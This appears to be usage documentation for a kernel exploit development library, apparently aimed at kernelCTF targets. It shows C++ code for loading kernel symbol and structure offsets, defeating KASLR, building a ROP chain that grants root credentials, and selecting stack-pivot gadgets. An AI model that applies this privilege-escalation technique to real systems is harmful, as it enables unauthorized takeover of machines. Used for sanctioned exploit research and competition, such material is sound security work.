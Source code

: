 # How to get started

### Initialize the Target Database

The target database contains all of the information needed to customize the exploit for the current target.

This section describes how to use the prebuilt database, extend it if necessary and how to make it replaceable with an updated version.

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db**. `INCBIN` creates a read-only section in the exploit binary with the current target database content.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**. This constructor uses the `target_db.kxdb` file if exists, otherwise it fallbacks to the compile-time `INCBIN`'d database. This way, the exploit can be customized for running on other targets by supplying another `target_db.kxdb` after compilation time.

    ```c++
    TargetDb kxdb("target_db.kxdb", target_db);
    ```

4. Already available in database structure and symbol offsets are documented in `kxdb_tool/config.py`.
They are added for all the supported targets.

5. If the needed symbol is not in database, use `Target` object to add it. One object per target needed. For example:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128, { 
        {"dump", 64, 8},
        {"type", 120, 8} });

    kxdb.AddTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target the exploit is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.GetDistro().c_str(), target.GetReleaseName().c_str());
    ```

8. Access pre-defined or added (via `Target`) structures and symbols using following calls:

    ```c++
    auto offset = target.GetStructSize("nft_expr_ops") + target.GetFieldOffset("nft_expr_ops", "type"); // get the size and offset of type field in nft_expr_ops structure

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```

   > **Note**
   > Reserves 8 bytes at offset 0.

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kxdb_tool/config.py`.

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build())
        exit(-1);
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
   ```
